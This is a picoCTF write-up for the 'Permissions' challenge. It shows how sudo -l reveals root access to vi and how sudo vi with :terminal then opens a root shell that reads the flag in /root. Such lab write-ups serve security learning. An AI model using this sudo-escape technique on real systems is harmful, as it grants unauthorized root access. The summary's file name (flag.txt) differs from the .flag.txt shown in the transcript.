


# PicoCTF - Permissions

## Challenge Overview
**Title:** Permissions  
**Category:** General Skills  
**Difficulty:** Medium  

## Description
Can you read files in the root file?

Additional details will be available after launching your challenge instance.

## Analysis
Upon connecting to the server, I try `ls /root` but as expected we are **not permitted**.  
I try adding `sudo` with the **same password** as the one used to **connect** and I see
```
picoplayer@challenge:~$ sudo ls /root
[sudo] password for picoplayer: 
Sorry, user picoplayer is not allowed to execute '/usr/bin/ls /root' as root on challenge.
```
Failed again, but we **know** the **password** for `sudo` is correct.

To **view** the **commands** I can run using `sudo` I use `sudo -l`
```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
We see that we **have access** to `vi`.  
`vi` is a **terminal editor** but we can also **launch** a **terminal** from it with the **same permissions** as it is run.

I will do the following:
- Launch `vi` with `sudo`
- Start a terminal inside `vi`

This **terminal** will also have **root privileges** since `vi` is run as root using `sudo`.

I run `sudo vi` and type `:terminal`.  




This **launches** a **terminal** with **root** privileges inside `vi`.  
Now we can view `/root` and get the flag.
```
root@challenge:/home/picoplayer# ls -al /root                                                                   
total 12                                                                                                        
drwx------ 1 root root   23 Aug  4  2023 .                                                                      
drwxr-xr-x 1 root root   51 Jun 30 11:23 ..                                                                     
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc                                                                
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt                                                              
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile                                                               
root@challenge:/home/picoplayer# cat /root/.flag.txt                                                            
picoCTF{____REDACTED____}
```

## Solution

- Connect to the server 
- Run `sudo vi`
- Enter `:terminal`
- Run `cat /root/flag.txt`